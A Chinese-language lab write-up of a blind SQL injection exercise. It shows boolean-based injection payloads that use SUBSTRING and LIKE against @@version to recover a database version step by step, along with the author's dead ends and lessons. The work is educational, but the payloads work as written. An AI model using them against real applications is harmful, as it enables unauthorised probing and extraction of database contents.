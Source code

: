# SQL Injection (Blind)

### Objective: Find the version of the SQL database software through a blind SQL attack.

頁面顯示的資訊有限，只能靠回傳的值是 true or false 來推測你的 query 的正確性

```bash
# User ID exists in the database.
0' OR '1'='1
```

```bash
# User ID is MISSING from the database.
0' OR '1'='2
```

`‘1’=’2` 不成立，所以不管前面那段 (`0’ OR` ) 是什麼，你都可以靠後面這段來判斷你的猜測是否正確

因此在這邊確認可以靠後面的那段語法來判斷 true or false，接下來就是要拼出那段語法

## 各種嘗試和卡關
```sql
SELECT IF(STRCMP('test','test1'),'no','yes');
```

```sql
SELECT SUBSTRING((select @@version), 1, 5) AS ExtractString;
```
```sql
SELECT IF ((SELECT @@version) = '10.3.32-MariaDB-1:10.3.32+maria~focal', 'pass', 'failed');
```
...

## 卡關

在這邊卡關了，因為太執著於用 SELECT,IF, UNION 的語法，後來看了一下提示的頁面，發現被遮住的答案提示長度並不常，代表應該有更簡短的寫法，因此改變方向，試著思考更簡短的判斷方式，就是 A AND B 這種形式的語法

接著順便重新梳理一下資訊，從推測程式語法的階段開始推敲:

可以假設原本的 SQL 大概長這樣

```sql
SELECT * FROM users WHERE id=0;
```

用 SQL injection 把它變成 `A OR B` 的形式就可以判斷 true false 了

```sql
SELECT * FROM users WHERE id=0 OR (SELECT SUBSTRING((SELECT @@version),1,2) = '10');
```

所以根據之前的 query 結果，我們只要加上版本判斷

```sql
1' AND (SELECT SUBSTRING((SELECT @@version),1,2) = '10')
```

還有為了滿足 injection 的 single quote `1='1` 在結尾

```sql
1' AND (SELECT SUBSTRING((SELECT @@version),1,2) = '10') AND 1='1
```

### 驗證測試

這邊要故意輸入錯誤的版本，確認頁面回傳的結果是否為 false，代表我們使用的 injection 邏輯是正確的

```sql
1' AND (SELECT SUBSTRING((SELECT @@version),1,2) = 'xx10') AND 1='1
```

### 開始推測

接下來就是利用 `like` 來慢慢逼近或猜測，或用工具會比較方便

```sql
# 200
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.%') AND 1='1
```

```sql
# 200
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1%') AND 1='1
```

```sql
# 404
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.12%') AND 1='1
```

```sql
# 200
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.%') AND 1='1
```

```sql
# 200
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.2%') AND 1='1
```

```sql
# 400
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.2.%') AND 1='1
```

```sql
# 400
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.2%') AND 1='1
```

## Done
```sql
# 200
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.26%') AND 1='1
```

最後再測試版號是否已經結束

```sql
# 400
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.26.%') AND 1='1
```

到目前為止可以看出 DB 的版本是 `10.1.26`

## 心得

- 卡關時可以試著將 SQL 簡化或替換成另一種寫法 (前提是方向正確的話)
- 建立一個測試用得 DB 方便測試 SQL 語法

## memo

### query dn version

```bash
select @@version;
```

```bash
select VERSION();
```

